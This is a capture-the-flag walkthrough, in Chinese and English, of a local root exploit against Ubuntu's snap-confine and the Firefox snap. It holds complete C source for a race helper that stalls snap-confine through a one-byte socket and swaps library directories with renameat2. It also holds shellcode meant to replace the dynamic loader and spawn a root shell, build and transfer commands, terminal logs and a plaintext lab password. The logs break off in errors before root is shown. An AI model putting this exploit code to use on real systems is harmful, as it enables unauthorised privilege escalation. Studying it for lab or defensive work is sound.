    setenv("SNAP_INSTANCE_NAME", "firefox", 1);

    execl("/usr/lib/snapd/snap-confine", "snap-confine",
          "--base", "core22",
          "snap.firefox.hook.configure",
          "/bin/sh", NULL);
    _exit(1);
}

//现在snap-confine，`stderr` 连接到了我们套接字对的写入端。当 snap-confine 尝试写入调试输出时，它会将数据写入该套接字。
_______________________________________________________________
//步骤 3：逐字节读取 snap-confine 的输出
// Parent: control loop
close(sv[1]); // close write end

char byte;
while (read(sv[0], &byte, 1) > 0) {
    // We read one byte-snap-confine can now write one more byte
    // This creates the backpressure effect
    
    // Check accumulated output for trigger string
    // ...
}

//结果：snap-confine 每次只能前进一个字节，并且只有在父进程显式读取字节时才会前进。父进程完全控制着 snap-confine 的执行速度。
_______________________________________________________________
//检测触发器Detecting the trigger
//父进程逐字节读取输出，将其累积到环形缓冲区中，并扫描触发字符串：
#define TRIGGER "dir:\"/tmp/.snap/usr/lib/x86_64-linux-gnu\""

char ringbuf[4096];
int ringpos = 0;
int tlen = strlen(TRIGGER);

while (read(read_fd, &byte, 1) > 0) {
    ringbuf[ringpos % sizeof(ringbuf)] = byte;
    ringpos++;

    if (ringpos >= tlen) {
        // Check if the last tlen bytes match the trigger
        char check[512];
        for (int i = 0; i < tlen; i++)
            check[i] = ringbuf[(ringpos-tlen + i) % sizeof(ringbuf)];
        check[tlen] = '\0';

        if (strstr(check, TRIGGER)) {
            // TRIGGER DETECTED
            // snap-confine is frozen right here, having just completed Step 1
            // We have unlimited time to perform the swap
            perform_swap();
            break;
        }
    }
}
//检测到触发器后，snap-confine进程仍阻塞在尝试写入调试输出的下一个字节。父进程可以花费所需的时间执行目录交换——没有超时，也没有竞争条件。
_______________________________________________________________
//The Atomic Swap--原子交换
//一旦检测到触发条件，父进程就会执行交换操作：
#ifndef RENAME_EXCHANGE
#define RENAME_EXCHANGE (1 << 1)
#endif

if (syscall(SYS_renameat2,
        AT_FDCWD, ".snap/usr/lib/x86_64-linux-gnu",
        AT_FDCWD, ".snap/usr/lib/x86_64-linux-gnu.exchange",
        RENAME_EXCHANGE) == 0) {
    // Success: the two directories have been atomically swapped
    // .snap/usr/lib/x86_64-linux-gnu now contains our payload
    // snap-confine will bind-mount our files as root in Step 3
}
//交换完成后，父进程会继续读取文件，从而解除 snap-confine 的阻塞，使其能够继续执行。
//snap-confine 恢复运行，进入步骤 3，并以 root 权限挂载攻击者拥有的文件。
```
#### 为什么这种方法如此有效
#### 反压技术将微秒级的比赛窗口转化为无限长的暂停。其主要特性如下：
```
财产							影响
SO_SNDBUF=1在写入套接字上		写入每个字节后立即限制块大小
SO_RCVBUF=1在读取套接字上		接收端也没有缓冲。
父进程一次读取一个字节			父级控制 snap-confine 何时推进
累积输出触发检测				父级确切地知道 snap-confine 在执行过程中的位置
renameat2(RENAME_EXCHANGE)	原子交换，无中间不一致状态
```
#### 结果就是，一旦前提条件满足，就会出现100%获胜的竞争条件，因为根本不存在竞争——攻击者将执行过程串行化。
-----------------------------------------------------------------------------------------
### 官方的方式行不通 firefox.c的代码不对劲,而且超级看不懂官方的人话
#### 对于 /usr/lib/x86_64-linux-gnu 目录的模拟序列是：
```
1. mount --bind /usr/lib/x86_64-linux-gnu → /tmp/.snap/usr/lib/x86_64-linux-gnu
2. mount -t tmpfs → /usr/lib/x86_64-linux-gnu
3. for each entry in /tmp/.snap/usr/lib/x86_64-linux-gnu:mount --bind entry → /usr/lib/x86_64-linux-gnu/entry
4. umount /tmp/.snap/usr/lib/x86_64-linux-gnu
```
#### 在步骤 1 和步骤 3 之间，攻击者可以篡改 /tmp/.snap/usr/lib/x86_64-linux-gnu 的内容。然后步骤 3 会以 root 身份将攻击者拥有的文件绑定到命名空间中。这是一个典型的 TOCTOU 赛跑条件。不过在此之前，我们需要验证清理操作。频率。我们检查了以下文件：
```
jonathan@snapped:~$ systemctl cat systemd-tmpfiles-clean.timer
[Unit]
Description=Daily Cleanup of Temporary Directories
Documentation=man:tmpfiles.d(5) man:systemd-tmpfiles(8)
ConditionPathExists=!/etc/initrd-release

[Timer]
OnBootSec=15min
OnUnitActiveSec=1d

# /etc/systemd/system/systemd-tmpfiles-clean.timer.d/override.conf
[Timer]
OnBootSec=1m 
OnUnitActiveSec=1m    <---
```
#### 从定时器的设置中我们可以看出，已将其更改为使用“systemd-tmpfiles”进行 1 分钟的清理操作。
```
jonathan@snapped:~$ cat /usr/lib/tmpfiles.d/tmp.conf
D /tmp 1777 root root 4m
#q /var/tmp 1777 root root 30d
```
#### 这意味着，位于 /tmp 目录下任何超过 4 分钟未更新的文件都将被删除，这为利用此漏洞创造了绝佳条件。
```
1.The Precondition: systemd-tmpfiles //前置条件
位于 /tmp 下的“.snap”目录是由“snap-confine”在每次调用时进行维护的。
Ubuntu 24.04将“systemd-tmpfiles-clean.timer”定时器的配置修改为：
删除位于“/tmp”目录下超过 30 天的文件（在“tmp.conf”文件中为“D /tmp 1777 root root 30d”）。
当“.snap”文件进入休眠状态并被清理后，攻击者会重新创建它，由于“/tmp”是可被所有人读写的，所以重新创建的目录将属于攻击者所有。

2.Winning the Race Reliably //可靠的
该辅助程序将 snap-confine 的标准错误输出重定向到一个 AF_UNIX 套接字，其设置为 SO_RCVBUF=1 和 SO_SNDBUF=1 。
这造成了极大的阻塞压力，因为 snap-confine 在每次对标准错误的写入操作中都会阻塞，直到辅助程序读取一个字节。
辅助程序逐字节读取，实际上是在单步执行 snap-confine 的执行过程。
当检测到触发消息 dir：“/tmp/.snap/usr/lib/x86_64-linux-gnu”（在模拟步骤 1 后发出）时（模拟步骤 1 后发出），
snap-confine 在写入过程中被阻塞。攻击者有无限的时间通过 renameat2(RENAME_EXCHANGE) 来执行交换操作。

3./proc/PID/cwd Bypass
/tmp/snap-private-tmp 的权限设置为 700（即根用户对根用户），因此非特权用户无法访问该目录。
然而，访问 /proc/PID/cwd 则会通过进程的挂载命名空间来遵循其工作目录，从而完全绕过了主机权限检查。

4.Dynamic Loader Hijack //动态加载程序劫持
比较结束后，该命名空间内位于 /usr/lib/x86_64-linux-gnu 下的所有库都成为了攻击者所掌控的资源。
用 shellcode 替换 ld-linux-x86-64.so.2 将意味着在这个命名空间中执行的任何 SUID 二进制文件都会以 root 身份触发该 shellcode，
因为内核会在程序本身之前加载 PT_INTERP 中指定的动态链接器，而 SUID 二进制文件的有效权限则会随之生效。

5.Sandbox Escape //“沙盒逃脱”
火狐软件包的 AppArmor 配置文件允许对 /var/snap/firefox/common/ 目录进行写入操作。
一个设置为 SUID 的 bash 脚本会存放在此处，且不受 AppArmor 的限制，能够脱离沙盒环境持续运行。
```
### Exploitation
#### 进入 Firefox 的 snap 安全沙箱界面，并记录下进程 ID。此进程会保持沙箱的挂载命名空间处于活动状态，其 /tmp 目录由主机上的 /tmp/snap-private-tmp/snap.firefox/tmp 进行备份。
----------------------------------------------------------------------
(Terminal 1)
----------------------------------------------------------------------
```
jonathan@snapped:~$ mkdir -p /tmp/.snap/usr/lib/x86_64-linux-gnu
jonathan@snapped:~$ ls -la /tmp/.snap/usr/lib/x86_64-linux-gnu
total 8
drwxrwxr-x 2 jonathan jonathan 4096 Apr 13 03:26 .
drwxrwxr-x 3 jonathan jonathan 4096 Apr 13 03:26 ..

//不行：
jonathan@snapped:~$ mount --bind /usr/lib/x86_64-linux-gnu /tmp/.snap/usr/lib/x86_64-linux-gnu
mount: /tmp/.snap/usr/lib/x86_64-linux-gnu: must be superuser to use mount.
       dmesg(1) may have more information after failed mount system call.
jonathan@snapped:~$ ls -la /tmp/.snap/usr/lib/x86_64-linux-gnu/
total 8
drwxrwxr-x 2 jonathan jonathan 4096 Apr 13 03:08 .
drwxrwxr-x 3 jonathan jonathan 4096 Apr 13 03:08 ..
//不行：
jonathan@snapped:~$ mount -t tmpfs tmpfs /usr/lib/x86_64-linux-gnu
mount: /usr/lib/x86_64-linux-gnu: must be superuser to use mount.
       dmesg(1) may have more information after failed mount system call.
//原因：
jonathan@snapped:~$ ls -l /usr/lib/snapd/snap-confine 
-rwsr-xr-x 1 root root 159016 Aug 20  2024 /usr/lib/snapd/snap-confine
```
#### Step 1 — Enter sandbox
```
jonathan@snapped:~$ env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine --base core22 snap.firefox.hook.configure /bin/bash

update.go:85: cannot change mount namespace according to change mount (/var/lib/snapd/hostfs/usr/local/share/doc /usr/local/share/doc none bind,ro 0 0): cannot open directory "/usr/local/share": permission denied
update.go:85: cannot change mount namespace according to change mount (/var/lib/snapd/hostfs/usr/share/gimp/2.0/help /usr/share/gimp/2.0/help none bind,ro 0 0): cannot write to "/var/lib/snapd/hostfs/usr/share/gimp/2.0/help" because it would affect the host in "/var/lib/snapd"
update.go:85: cannot change mount namespace according to change mount (/var/lib/snapd/hostfs/usr/share/gtk-doc /usr/share/gtk-doc none bind,ro 0 0): cannot write to "/var/lib/snapd/hostfs/usr/share/gtk-doc" because it would affect the host in "/var/lib/snapd"
update.go:85: cannot change mount namespace according to change mount (/var/lib/snapd/hostfs/usr/share/javascript/jquery /usr/share/javascript/jquery none bind,ro 0 0): cannot write to "/var/lib/snapd/hostfs/usr/share/javascript/jquery" because it would affect the host in "/var/lib/snapd"
update.go:85: cannot change mount namespace according to change mount (/var/lib/snapd/hostfs/usr/share/javascript/sphinxdoc /usr/share/javascript/sphinxdoc none bind,ro 0 0): cannot write to "/var/lib/snapd/hostfs/usr/share/javascript/sphinxdoc" because it would affect the host in "/var/lib/snapd"
update.go:85: cannot change mount namespace according to change mount (/var/lib/snapd/hostfs/usr/share/libreoffice/help /usr/share/libreoffice/help none bind,ro 0 0): cannot write to "/var/lib/snapd/hostfs/usr/share/libreoffice/help" because it would affect the host in "/var/lib/snapd"
update.go:85: cannot change mount namespace according to change mount (/var/lib/snapd/hostfs/usr/share/sphinx_rtd_theme /usr/share/sphinx_rtd_theme none bind,ro 0 0): cannot write to "/var/lib/snapd/hostfs/usr/share/sphinx_rtd_theme" because it would affect the host in "/var/lib/snapd"
update.go:85: cannot change mount namespace according to change mount (/var/lib/snapd/hostfs/usr/share/xubuntu-docs /usr/share/xubuntu-docs none bind,ro 0 0): cannot write to "/var/lib/snapd/hostfs/usr/share/xubuntu-docs" because it would affect the host in "/var/lib/snapd"
bash: /home/jonathan/.bashrc: Permission denied
jonathan@snapped:/home/jonathan$
```
```
jonathan@snapped:/home/jonathan$ cd /tmp
jonathan@snapped:/tmp$ echo $$
3812
jonathan@snapped:/tmp$ while test -d ./.snap; do touch ./; sleep 1; done
stat ./.snap
jonathan@snapped:/tmp$ stat ./.snap
stat: cannot statx './.snap': No such file or directory
jonathan@snapped:/tmp$ 

```
----------------------------------------------------------------------
(Terminal 2)
----------------------------------------------------------------------
#### Step 3 — Access sandbox /tmp from outside
```
[★]$ ssh jonathan@snapped.htb
jonathan@snapped.htb's password: linkinpark

jonathan@snapped:/tmp$ cd /proc/3482/cwd
jonathan@snapped:/proc/3482/cwd$ ls -la
total 4
drwxrwxrwt  2 root root 4096 Apr  8 09:09 .
drwxr-xr-x 21 root root  540 Apr  8 09:05 ..
```

<details>
<summary>$ vi firefox_2404.c</summary>

```
[★]$ vi firefox_2404.c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <signal.h>
#include <errno.h>
#include <dirent.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <sys/syscall.h>
#define SNAP_CONFINE "/usr/lib/snapd/snap-confine"
#define EXCHANGE_SRC ".snap/usr/lib/x86_64-linux-gnu.exchange"
#define EXCHANGE_DST ".snap/usr/lib/x86_64-linux-gnu"
#define REAL_LIBDIR "/snap/core22/current/usr/lib/x86_64-linux-gnu"
#define TRIGGER "dir:\"/tmp/.snap/usr/lib/x86_64-linux-gnu\""

static int copy_file(const char *src, const char *dst) {
		int fds = open(src, O_RDONLY);
		if (fds < 0) return -1;
		int fdd = open(dst, O_WRONLY | O_CREAT | O_TRUNC, 0755);
		if (fdd < 0) { close(fds); return -1; }
		char buf[65536];
		ssize_t n;
		while ((n = read(fds, buf, sizeof(buf))) > 0)
				write(fdd, buf, n);
		close(fds);
		close(fdd);
		return 0;
}


static int setup_snap_and_exchange(const char *payload_so) {
		mkdir(".snap", 0755);
		mkdir(".snap/usr", 0755);
		mkdir(".snap/usr/lib", 0755);
		mkdir(".snap/usr/local", 0755);
		mkdir(".snap/snap", 0755);
		mkdir(".snap/snap/firefox", 0755);
		DIR *d = opendir("/snap/firefox");
		if (d) {
				struct dirent *ent;
				while ((ent = readdir(d)) != NULL) {
								if (ent->d_name[0] != '.' && strcmp(ent->d_name, "current") != 0) {
										char p[512];
										snprintf(p, sizeof(p), ".snap/snap/firefox/%s", ent->d_name);
										mkdir(p, 0755);
										snprintf(p, sizeof(p), ".snap/snap/firefox/%s/data-dir", ent->d_name);
										mkdir(p, 0755);
								}
				}
				closedir(d);
		}

		mkdir(EXCHANGE_SRC, 0755);

		d= opendir(REAL_LIBDIR);
		if (!d) { perror("opendir real libdir"); return -1; }

		int count = 0;
		struct dirent *ent;
		while ((ent = readdir(d)) != NULL) {
				if (ent->d_name[0] == '.' && 
								(ent->d_name[1] == '\0' ||
				 				(ent->d_name[1] == '.' && ent->d_name[2] == '\0')))
						continue;

				char src[4096], dst[4096];
				snprintf(src, sizeof(src), "%s/%s", REAL_LIBDIR, ent->d_name);
				snprintf(dst, sizeof(dst), "%s/%s", EXCHANGE_SRC, ent->d_name);

				struct stat st;
				if (lstat(src, &st) < 0) continue;
				if (S_ISDIR(st.st_mode)) {
						mkdir(dst, 0755);
				} else if (S_ISLNK(st.st_mode)) {
						char link[4096];
						ssize_t len = readlink(src, link, sizeof(link) - 1);
						if (len > 0) { link[len] = '\0'; symlink(link, dst); }
				} else {
						copy_file(src, dst);
				}
				count++;
		}
		closedir(d);

		printf("[*] Exchange dir ready: %d entries in %s\n", count, EXCHANGE_SRC);
		return 0;
}

static int create_stderr_socket(int *read_fd, int *write_fd) {
		int sv[2];
		if (socketpair(AF_UNIX, SOCK_STREAM, 0, sv) < 0) {
				perror("socketpair"); return -1;
		}
		int bufsize = 1;
		setsockopt(sv[0], SOL_SOCKET, SO_RCVBUF, &bufsize, sizeof(bufsize));
		setsockopt(sv[0], SOL_SOCKET, SO_SNDBUF, &bufsize, sizeof(bufsize));
		setsockopt(sv[1], SOL_SOCKET, SO_RCVBUF, &bufsize, sizeof(bufsize));
		setsockopt(sv[1], SOL_SOCKET, SO_SNDBUF, &bufsize, sizeof(bufsize));
		*read_fd = sv[0];
		*write_fd = sv[1];
		return 0;
}

static int run_and_race(void) {
		int read_fd, write_fd;
		if (create_stderr_socket(&read_fd, &write_fd) < 0) return -1;

		pid_t pid = fork();
		if (pid < 0) { perror("fork"); return -1;}

		if (pid ==0) {
				close(read_fd);
				dup2(write_fd, STDERR_FILENO);
				close(write_fd);
				clearenv();
				setenv("SNAPD_DEBUG", "1", 1);
				setenv("SNAP_INSTANCE_NAME", "firefox", 1);
				execl(SNAP_CONFINE, "snap-confine",
								"--base", "core22",
								"snap.firefox.hook.configure",
								"/bin/sh", "-c",
								"echo $$ > /tmp/race_pid.txt; "
								"stat -c '%U:%G %a' /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 "
								"> /tmp/race_perms.txt 2>&1; "
								"sleep 99994",
								NULL);
				_exit(1);
		}

		close(write_fd);

		char ringbuf[4096];
		int ringpos = 0;
		memset(ringbuf, 0, sizeof(ringbuf));
		int tlen = strlen(TRIGGER);
		char byte;
		ssize_t n;
		int swapped = 0;

		printf("[*] Reading snap-confine output (PID %d)...\n", pid);

		while ((n = read(read_fd, &byte, 1)) > 0)  {
						write(STDOUT_FILENO, &byte, 1);

						ringbuf[ringpos % sizeof(ringbuf)] = byte;
						ringpos++;

						if(!swapped && ringpos >= tlen) {
								char check[512];
								for (int i = 0; i < tlen && i < (int)sizeof(check) - 1; i++)
										check[i] =ringbuf[(ringpos -tlen + i) % sizeof(ringbuf)];
								check[tlen] = '\0';

								if (strstr(check, TRIGGER)) {
										printf("\n[!] TRIGGER DETECTED! Swapping .exchange...\n");


										if (syscall (SYS_renameat2, AT_FDCWD, EXCHANGE_DST,
												AT_FDCWD, EXCHANGE_SRC, RENAME_EXCHANGE) == 0){
											/* atomic swap succeeded */
										} else {
												rename(EXCHANGE_DST, ".snap/usr/lib/x86_64-linux-gnu.orig");
												rename(EXCHANGE_SRC, EXCHANGE_DST);
										}

										swapped = 1;
										printf("[*] SWAP DONE! Race won.\n");
										printf("[*] Do NOT close this terminal.\n");
								}
						}
		}


		close(read_fd);
		int status;
		waitpid(pid, &status, 0);

		if (swapped)
				printf("[*] Race won! Our libraries are in the namespace.\n");
		else
				printf("[-] Trigger not detected. Race lost.\n");

		return swapped ? 0 : -1;
}


int main(int argc, char *argv[]) {
		if (argc < 2) {
				fprintf(stderr, "Usage: %s <payload.so>\n", argv[0]);
				return 1;
		}
		printf("[*] CVE-2026-3888 - firefox 24.04 helper\n");
		printf("[*] CWD: "); fflush(stdout); system("pwd");
		printf("[*] Setting up .snap and .exchange directiry...\n");
		if (setup_snap_and_exchange(argv[1]) < 0) return 1;
		printf("[*] Starting race against snap-confine...\n");
		if (run_and_race() < 0) return 1;
		printf("[+] Done. Re-enter sandbox to exploit.\n");
		return 0;
}
```
</details>

```
[★]$ gcc -O2 -static -o firefox_2404 firefox_2404.c
[★]$ file firefox_2404
firefox_2404: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=ef5e7a78d40cb3c90c41038239ad23833412c353, for GNU/Linux 3.2.0, not stripped
```

<details>
<summary>$ vi payload.c</summary>
	
```
[★]$ vi payload.c
void _start(void) {
		/* setreuid(0, 0) */
		__asm__ volatile (
						"xor %%rdi, %%rdi\n"
						"xor %%rsi, %%rsi\n"
						"mov $0x71, %%rax\n"
						"syscall\n"
						::: "rax", "rdi", "rsi"
					 );

		/* setregid(0, 0) */
		__asm__ volatile (
						"xor %%rdi, %%rdi\n"
						"xor %%rsi, %%rsi\n"
						"mov $0x72, %%rax\n"
						"syscall\n"
						::: "rax", "rdi", "rsi"
					 );

		/* execve("/tmp/sh", {"/tmp/sh", NULL} ,NULL) */
		__asm__ volatile (
						"mov $0x68732f706d742f, %%rax\n"
						"push %%rax\n"
						"mov %%rsp, %%rdi\n"
						"push $0\n"
						"push %%rdi\n"
						"mov %%rsp, %%rsi\n"
						"xor %%rdx, %%rdx\n"
						"mov $0x3b, %%rax\n"
						"syscall\n"
						::: "rax", "rdi", "rsi", "rdx"
					 );
}
```
</details>

```
[★]$ gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell.c
[★]$ mv librootshell.so payload.so
```
```
[★]$ scp firefox_2404 jonathan@10.129.18.95:/home/jonathan/
The authenticity of host '10.129.18.95 (10.129.18.95)' can't be established.
ED25519 key fingerprint is SHA256:n0XlQQqHGczclhalpCeoOZDYQGr7rl3WlJytHLWPkr8.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.18.95' (ED25519) to the list of known hosts.
jonathan@10.129.18.95's password: 
firefox_2404

[★]$ scp payload.so jonathan@10.129.18.95:/home/jonathan/
jonathan@10.129.18.95's password: 
payload.so                                           100% 9056   935.2KB/s   00:00    
```
#### 执行
<details>
<summary>jonathan@snapped:/proc/3799/cwd$ ls -al</summary>

```
jonathan@snapped:/proc/3799/cwd$ ls -al
total 4
drwxrwxrwt  2 root root 4096 Apr 12 08:14 .
drwxr-xr-x 21 root root  540 Apr 12 08:10 ..
jonathan@snapped:/proc/3799/cwd$ ~/firefox_2404 ~/payload.so
[*] CVE-2026-3888 - firefox 24.04 helper
[*] CWD: /proc/3799/cwd
[*] Setting up .snap and .exchange directiry...
[*] Exchange dir ready: 285 entries in .snap/usr/lib/x86_64-linux-gnu.exchange
[*] Starting race against snap-confine...
[*] Reading snap-confine output (PID 4574)...
DEBUG: -- snap startup {"stage":"snap-confine enter", "time":"1775996144.630157"}
DEBUG: umask reset, old umask was   02
DEBUG: security tag: snap.firefox.hook.configure
DEBUG: executable:   /bin/sh
DEBUG: confinement:  non-classic
DEBUG: base snap:    core22
DEBUG: ruid: 1000, euid: 0, suid: 0
DEBUG: rgid: 1000, egid: 1000, sgid: 1000
DEBUG: apparmor label on snap-confine is: /usr/lib/snapd/snap-confine
DEBUG: apparmor mode is: enforce
DEBUG: -- snap startup {"stage":"snap-confine mount namespace start", "time":"1775996144.632610"}
DEBUG: creating lock directory /run/snapd/lock (if missing)
DEBUG: set_effective_identity uid:0 (change: no), gid:0 (change: yes)
DEBUG: opening lock directory /run/snapd/lock
DEBUG: set_effective_identity uid:0 (change: no), gid:1000 (change: yes)
DEBUG: opening lock file: /run/snapd/lock/.lock
DEBUG: set_effective_identity uid:0 (change: no), gid:0 (change: yes)
DEBUG: set_effective_identity uid:0 (change: no), gid:1000 (change: yes)
DEBUG: sanity timeout initialized and set for 30 seconds
DEBUG: acquiring exclusive lock (scope (global), uid 0)
DEBUG: sanity timeout reset and disabled
DEBUG: ensuring that snap mount directory is shared
DEBUG: unsharing snap namespace directory
DEBUG: set_effective_identity uid:0 (change: no), gid:0 (change: yes)
DEBUG: set_effective_identity uid:0 (change: no), gid:1000 (change: yes)
DEBUG: releasing lock 5
DEBUG: opened snap-update-ns executable as file descriptor 5
DEBUG: opened snap-discard-ns executable as file descriptor 6
DEBUG: creating lock directory /run/snapd/lock (if missing)
DEBUG: set_effective_identity uid:0 (change: no), gid:0 (change: yes)
DEBUG: opening lock directory /run/snapd/lock
DEBUG: set_effective_identity uid:0 (change: no), gid:1000 (change: yes)
DEBUG: opening lock file: /run/snapd/lock/firefox.lock
DEBUG: set_effective_identity uid:0 (change: no), gid:0 (change: yes)
DEBUG: set_effective_identity uid:0 (change: no), gid:1000 (change: yes)
DEBUG: sanity timeout initialized and set for 30 seconds
DEBUG: acquiring exclusive lock (scope firefox, uid 0)
DEBUG: sanity timeout reset and disabled
DEBUG: initializing mount namespace: firefox
DEBUG: device cgroup not required due to base core22
DEBUG: setting up device cgroup, mode "optional"
DEBUG: libudev has current tags support
DEBUG: no devices tagged with snap_firefox_hook_configure, skipping device cgroup setup
DEBUG: forked support process 4575
DEBUG: block device of snap core22, revision 1564 is 7:1
DEBUG: changing apparmor hat to mount-namespace-capture-helperDEBUG: joining preserved mount namespace for inspectionDEBUG: 
sanity timeout initialized and set for 30 seconds

DEBUG: helper process waiting for command
DEBUG: sanity timeout initialized and set for 30 seconds
DEBUG: found base snap device 7:1 on /usr
DEBUG: sanity timeout reset and disabled
DEBUG: preserved mount is not stale, reusing
DEBUG: joined preserved mount namespace firefox
DEBUG: joining preserved per-user mount namespace
DEBUG: unsharing the mount namespace (per-user)
DEBUG: sc_setup_user_mounts: firefox
DEBUG: performing operation: (disabled) use debug build to see details
DEBUG: set_effective_identity uid:0 (change: no), gid:0 (change: yes)
DEBUG: calling snapd tool snap-update-ns
DEBUG: DEBUG: waiting for snapd tool snap-update-ns to terminate
requesting changing of apparmor profile on next exec to snap-update-ns.firefox
logger.go:93: DEBUG: current mount entries
logger.go:93: DEBUG: desired mount entries (sorted)
logger.go:93: DEBUG: - /run/user/1000/doc/by-app/snap.firefox /run/user/1000/doc none bind,rw,x-snapd.ignore-missing 0 0
logger.go:93: DEBUG: desiredIDs: map[/run/user/1000/doc:true]
logger.go:93: DEBUG: reuse: map[]
logger.go:93: DEBUG: processing mount entries
logger.go:93: DEBUG: adding independent entry: /run/user/1000/doc/by-app/snap.firefox /run/user/1000/doc none bind,rw,x-snapd.ignore-missing 0 0
logger.go:93: DEBUG: all mimics:
logger.go:93: DEBUG: mount entries ordered as they will be applied
logger.go:93: DEBUG: - /run/user/1000/doc/by-app/snap.firefox /run/user/1000/doc none bind,rw,x-snapd.ignore-missing 0 0
logger.go:93: DEBUG: mount name:"/run/user/1000/doc/by-app/snap.firefox" dir:"/run/user/1000/doc" type:"none" opts:MS_BIND unparsed:"" (error: <nil>)
DEBUG: snap-update-ns finished successfully
DEBUG: set_effective_identity uid:0 (change: no), gid:1000 (change: yes)
DEBUG: NOT preserving per-user mount namespace
DEBUG: releasing lock 7
DEBUG: sending command 0 to helper process (pid: 4575)
DEBUG: DEBUG: sanity timeout reset and disabled
DEBUG: helper process received command 0
waiting for response from helper
DEBUG: waiting for the helper process to exit
DEBUG: helper process exiting
DEBUG: helper process exited normally
DEBUG: resetting PATH to values in sync with core snap
DEBUG: -- snap startup {"stage":"snap-confine mount namespace finish", "time":"1775996144.674663"}
DEBUG: set_effective_identity uid:1000 (change: yes), gid:1000 (change: yes)
DEBUG: requesting changing of apparmor profile on next exec to snap.firefox.hook.configure
DEBUG: ruid: 1000, euid: 1000, suid: 0
DEBUG: setting capabilities bounding set
DEBUG: regaining SYS_ADMIN
DEBUG: loading bpf program for security tag snap.firefox.hook.configure
DEBUG: read 152 bytes from /var/lib/snapd/seccomp/bpf/global.bin
DEBUG: clearing SYS_ADMIN
DEBUG: execv(/bin/sh, /bin/sh...)
DEBUG:  argv[1] = -c
DEBUG:  argv[2] = echo $$ > /tmp/race_pid.txt; stat -c '%U:%G %a' /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 > /tmp/race_perms.txt 2>&1; sleep 99994
DEBUG: umask restored to   02
DEBUG: working directory restored to /tmp
DEBUG: -- snap startup {"stage":"snap-confine to snap-exec", "time":"1775996144.682770"}
^C
jonathan@snapped:/proc/3799/cwd$ ls -la
total 16
drwxrwxrwt  3 root     root     4096 Apr 12 08:15 .
drwxr-xr-x 21 root     root      540 Apr 12 08:10 ..
-rw-rw-r--  1 jonathan jonathan   14 Apr 12 08:15 race_perms.txt
-rw-rw-r--  1 jonathan jonathan    5 Apr 12 08:15 race_pid.txt
drwxr-xr-x  4 jonathan jonathan 4096 Apr 12 08:15 .snap
jonathan@snapped:/proc/3799/cwd$ ls 
race_perms.txt  race_pid.txt
jonathan@snapped:/proc/3799/cwd$ cat race_perms.txt
root:root 755
jonathan@snapped:/proc/3799/cwd$ cat race_pid.txt
cat: race_pid.txt: No such file or directory
```
</details>

#### 一下子就看不见了
#### 又执行了一遍
```
jonathan@snapped:/proc/3799/cwd$ cat race_pid.txt
4877
```
#### 所以，在执行$ ~/firefox_2404 ~/payload.so 不用ctrl C，然后直接在 terminal 3操作
----------------------------------------------------------------------
Terminal 3
----------------------------------------------------------------------
```
jonathan@snapped:~$ PID=$(cat /proc/3796/cwd/race_pid.txt)
jonathan@snapped:~$ cat /proc/3796/cwd/race_perms/txt
cat: /proc/3796/cwd/race_perms/txt: No such file or directory
jonathan@snapped:~$ cd /proc/$PID/root
jonathan@snapped:/proc/4516/root$ stat -c '%u:%G' usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0:root
jonathan@snapped:~$ cd /proc/3796/cwd/ <--
jonathan@snapped:/proc/4516/root$ cp /usr/bin/busybox ./tmp/sh
jonathan@snapped:/proc/4516/root$ cat ~/payload.so > ./usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
-bash: ./usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2: Read-only file system
jonathan@snapped:/proc/4516/root$ env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine --base core22 snap.firefox.hook.configure /usr/lib/snapd/snap-confine
/usr/lib/snapd/snap-confine: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.38' not found (required by /usr/lib/snapd/snap-confine)
jonathan@snapped:/proc/4516/root$ id
uid=1000(jonathan) gid=1000(jonathan) groups=1000(jonathan)
```

```
jonathan@snapped:/proc/4498/root$ stat -c '%U:%G' usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
root:root
jonathan@snapped:/proc/4498/root$ cp /usr/bin/busybox ./tmp/sh
jonathan@snapped:/proc/4498/root$ cat ~/payload.so > ./usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
-bash: ./usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2: Read-only file system

jonathan@snapped:/proc/4498/root$ cd ~
jonathan@snapped:~$ systemd-run --user --scope --unit=snap.firefox /bin/bash
//systemd-run --user --scope --unit=snap.d$(date +%s) /bin/bash

Running as unit: snap.firefox.scope; invocation ID: 0b27347feec642f6904d095ae6d3e16a

jonathan@snapped:~$ env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine --base core22 snap.firefox.hook.configure /usr/lib/snapd/snap-confine
/usr/lib/snapd/snap-confine: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.38' not found (required by /usr/lib/snapd/snap-confine)
``` 
----------------------------------------------------------------------
